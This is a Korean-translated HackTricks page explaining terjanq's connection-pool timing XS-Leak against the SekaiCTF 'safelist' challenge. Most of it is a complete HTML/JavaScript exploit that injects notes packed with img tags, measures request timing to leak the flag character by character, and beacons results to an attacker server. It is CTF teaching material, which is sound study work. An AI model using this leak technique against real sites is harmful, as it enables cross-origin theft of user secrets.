 # Connection Pool by Destination Example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq)는 다음 페이지에 언급된 문제에 대한 또 다른 해결책을 제안합니다:

{% content-ref url="connection-pool-by-destination-example.md" %}
[connection-pool-by-destination-example.md](connection-pool-by-destination-example.md)
{% endcontent-ref %}

이 익스플로잇이 어떻게 작동하는지 살펴보겠습니다:

* 공격자는 가능한 한 많은 **`<img`** 태그가 **로드**되는 **`/js/purify.js`**를 포함한 노트를 주입합니다 (원본을 차단하기 위해 6개 이상).
* 그런 다음, 공격자는 인덱스 1의 **노트**를 **제거**합니다.
* 그런 다음, 공격자는 \[남아 있는 노트로 **봇이 페이지에 접근하게** 만들고] **`victim.com/js/purify.js`**에 **요청**을 보낼 것입니다. 이 요청은 **시간**을 측정합니다.&#x20;
* 시간이 **더 크면**, **주입**이 남아 있는 **노트**에 있었고, 시간이 **더 낮으면**, **플래그**가 그곳에 있었습니다.

{% hint style="info" %}
솔직히, 스크립트를 읽으면서 **공격자가 봇이 페이지를 로드하여 img 태그를 트리거하게 만드는 부분**을 놓쳤습니다. 코드에서 그런 것을 보지 못했습니다.
{% endhint %}
```html
<html>
<head>
<script>
const SITE_URL = 'https://safelist.ctf.sekai.team/';
const PING_URL = 'https://myserver';
function timeScript(){
return new Promise(resolve => {
var x = document.createElement('script');
x.src = 'https://safelist.ctf.sekai.team/js/purify.js?' + Math.random();
var start = Date.now();
x.onerror = () => {
console.log(`Time: ${Date.now() - start}`); //Time request
resolve(Date.now() - start);
x.remove();
}
document.body.appendChild(x);
});
}

add_note = async (note) => {
let x = document.createElement('form')
x.action = SITE_URL + "create"
x.method = "POST"
x.target = "xxx"

let i = document.createElement("input");
i.type = "text"
i.name = "text"
i.value = note
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

remove_note = async (note_id) => {
let x = document.createElement('form')
x.action = SITE_URL+"remove"
x.method = "POST"
x.target = "_blank"

let i = document.createElement("input");
i.type = "text"
i.name = "index"
i.value = note_id
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));
// }zyxwvutsrqponmlkjihgfedcba_
const alphabet = 'zyxwvutsrqponmlkjihgfedcba_'
var prefix = 'SEKAI{xsleakyay';
const TIMEOUT = 500;
async function checkLetter(letter){
// Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
// Depending whether we found flag's letter it will either load the images or not.
// With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
const payload = `${prefix}${letter}` + Array.from(Array(78)).map((e,i)=>`<img/src=/js/purify.js?${i}>`).join('');
await add_note(payload);
await sleep(TIMEOUT);
await timeScript();
await remove_note(1); //Now, only the note with the flag or with the injection existsh
await sleep(TIMEOUT);
const time = await timeScript(); //Find out how much a request to the same origin takes
navigator.sendBeacon(PING_URL, [letter,time]);
if(time>100){
return 1;
}
return 0;
}
window.onload = async () => {
navigator.sendBeacon(PING_URL, 'start');
// doesnt work because we are removing flag after success.
// while(1){
for(const letter of alphabet){
if(await checkLetter(letter)){
prefix += letter;
navigator.sendBeacon(PING_URL, prefix);
break;
}
}
// }
};
</script>
</head>
<body>
</body>
</html>

```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
